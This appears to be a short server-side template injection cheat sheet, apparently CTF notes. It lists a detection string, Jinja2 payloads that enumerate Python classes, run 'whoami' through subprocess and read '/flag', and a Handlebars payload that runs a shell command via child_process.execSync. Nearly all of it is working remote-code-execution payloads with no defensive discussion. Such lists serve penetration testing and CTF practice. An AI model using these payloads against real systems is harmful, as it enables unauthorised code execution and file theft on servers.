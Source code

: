 # Server-Side Template Injection (SSTI)

```
${{<%[%'"}}%    # Special characteres for detection
{{7*7}}
```

## Python

### Jinja2

```
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__() }}   # To list all objects
http://[URL]/{{ ''.__class__.__mro__[1].__subclasses__()[401]("whoami", shell=True, stdout=-1).communicate() }}   # Using subprocess.Popen index in 401 to achieve rce
{{request.application.__globals__.__builtins__.__import__('os').popen('cat /flag').read()}}
{{request.__class__._load_form_data.__globals__.__builtins__.open("/flag").read() }}
{{ get_flashed_messages.__globals__.__builtins__.open("/flag").read() }}
```

Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

## Node.js Express middleware

```
{{#with "s" as |string|}}
	{{#with "e"}}
		{{#with split as |conslist|}}
			{{this.pop}}
			{{this.push (lookup string.sub "constructor")}}
			{{this.pop}}
			{{#with string.split as |codelist|}}
				{{this.pop}}
				{{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
				{{this.pop}}
				{{#each conslist}}
					{{#with (string.sub.apply 0 codelist)}}
						{{this}}
					{{/with}}
				{{/each}}
			{{/with}}
		{{/with}}
	{{/with}}
{{/with}}
```
